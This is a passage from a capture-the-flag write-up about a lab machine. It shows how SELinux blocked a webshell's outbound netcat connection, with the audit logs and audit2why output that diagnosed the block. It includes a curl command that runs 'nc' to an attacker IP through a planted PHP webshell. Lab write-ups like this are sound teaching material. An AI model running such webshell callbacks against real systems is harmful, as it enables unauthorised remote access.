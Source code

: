 ### Webshell

The reverse shell from the webshell was another thing that was blocked.
In fact, any connection out to me was blocked. To demonstrate, I'l run
`nc` over the webshell to just connect to my host:



    oxdf@parrot$ curl -G --data-urlencode 'cmd=nc 10.10.14.7 443' http://dms-pit.htb/seeddms51x/data/1048576/29/1.php



It generates these logs:



    type=AVC msg=audit(1632504453.554:5282): avc:  denied  { name_connect } for  pid=15554 comm="nc" dest=443 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0
    type=SYSCALL msg=audit(1632504453.554:5282): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=5635357392c0 a2=10 a3=3 items=0 ppid=15428 pid=15554 auid=4294967295 uid=992 gid=988 euid=992 suid=992 fsuid=992 egid=988 sgid=988 fsgid=988 tty=(none) ses=4294967295 comm="nc" exe="/usr/bin/ncat" subj=system_u:system_r:httpd_t:s0 key=(null)ARCH=x86_64 SYSCALL=connect AUID="unset" UID="nginx" GID="nginx" EUID="nginx" SUID="nginx" FSUID="nginx" EGID="nginx" SGID="nginx" FSGID="nginx"
    type=PROCTITLE msg=audit(1632504453.554:5282): proctitle=6E630031302E31302E31342E3700343433



I can feed that into `audit2why` to get more details about what's going
on:



    [root@pit audit]# cat audit.log | grep 'comm="nc"' | tail -2 | audit2why
    type=AVC msg=audit(1632504453.554:5282): avc:  denied  { name_connect } for  pid=15554 comm="nc" dest=443 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0

            Was caused by:
            One of the following booleans was set incorrectly.
            Description:
            Allow httpd to can network connect

            Allow access by executing:
            # setsebool -P httpd_can_network_connect 1
            Description:
            Allow httpd to graceful shutdown

            Allow access by executing:
            # setsebool -P httpd_graceful_shutdown 1
            Description:
            Allow httpd to can network relay

            Allow access by executing:
            # setsebool -P httpd_can_network_relay 1
            Description:
            Allow nis to enabled
